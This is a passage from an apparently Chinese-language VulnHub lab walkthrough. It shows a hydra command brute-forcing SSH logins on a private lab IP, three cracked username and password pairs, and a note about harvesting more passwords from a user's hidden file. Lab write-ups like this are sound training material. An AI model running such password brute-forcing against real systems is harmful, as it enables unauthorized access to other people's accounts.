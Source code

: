 ```
于是再次对ssh进行密码爆破，分别暴力破解出三个用户
hydra -L user_dict -P pass_dict 192.168.15.136 ssh
chandlerb:UrAG0D!
joeyt:Passw0rd
janitor:Ilovepeepee
```

![image-20241206222017104](vulnhub靶场实战/image-20241206222017104.png)		

```
于是可以登录到这些用户上。其中另外两个用户啥都没有。
```

![image-20241206222232518](vulnhub靶场实战/image-20241206222232518.png)	

```
查看janitor家用户中的隐藏文件中存放着密码，把这些密码也存入自定义的密码本pass_dict中。
```

![image-20241206222336238](vulnhub靶场实战/image-20241206222336238.png)	
